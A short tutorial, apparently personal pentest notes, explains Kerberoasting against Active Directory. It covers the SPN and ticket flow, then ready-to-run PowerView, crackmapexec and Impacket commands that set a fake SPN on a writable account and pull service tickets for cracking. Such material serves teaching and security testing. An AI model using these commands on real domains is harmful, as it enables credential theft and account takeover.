 # Kerberoasting: From SPNs to Password Cracking

## High Level Overview:

SPNs are a method way of assigning addresses to services in an Active Directory Domain, but not only limited to services.

They can be assigned automatically, programmatically through scripts like PowerView or manually via setspns.exe

## Low Level Overview:

Kerberoasting Attack Flow:

* Identity service accounts via enumeration of SPNs.
* Request a TGS ticket for the SPN via KDC.
* KDC verifies that a valid TGT exists in this request, validates and returns a TGS encrypted with the password hash of that certain service.
* Crack it manually via hashcat.



## ACLs play a role.

Imagine if we have GenericAll, GenericWrite or specific WriteProperty permissions we can modify/assign anything over that account.

After finding a valid account we can set-up some random SPN to it:

```powershell
Set-DomainObject -Identity TargetUser -Set @{serviceprincipalname='fake/RANDOM'}
```

Now we can use it via CME to extract the ticket.

```bash
crackmapexec ldap 10.10.10.10 -u compromised_user -p Password123 --kerberoasting
# Or with Impacket
GetUserSPNs.py -request -dc-ip 10.10.10.10 domain/compromised_user:Password123
```
